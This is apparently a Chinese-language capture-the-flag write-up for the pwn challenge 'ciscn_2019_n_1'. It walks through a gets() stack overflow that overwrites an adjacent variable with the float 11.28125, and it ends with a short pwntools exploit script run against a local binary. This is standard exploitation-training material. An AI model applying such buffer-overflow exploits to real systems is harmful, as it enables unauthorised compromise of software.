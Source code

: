 首先检查一下保护机制

![image-20200521165649983](https://static.hack1s.fun/images/2021/02/06/image-20200521165649983.png)

同样只有NX

main函数中的设置了一个buf，之后调用了另一个func

![image-20200521203023180](https://static.hack1s.fun/images/2021/02/06/image-20200521203023180.png)

这个调用的func很神奇

![image-20200521203057408](https://static.hack1s.fun/images/2021/02/06/image-20200521203057408.png)

`gets`了一个v1

但是比较的却是v2的值，如果v2满足条件就可以执行

看到v1距离rbp有30h

v2距离rbp只有4h，因此首先要填补这之间的差值

之后加上一个float的值11.28125就可以了

这里python在计算float值时有点麻烦，不如直接在IDA里比对这个11.28125的二进制值

![image-20200521205842979](https://static.hack1s.fun/images/2021/02/06/image-20200521205842979.png)

exp也比较简单

```python
from pwn import *

io = process('./ciscn_2019_n_1')
payloads = 'a'*(0x30-0x4)+p32(0x41348000)

io.sendline(payloads)
io.interactive()
```



## 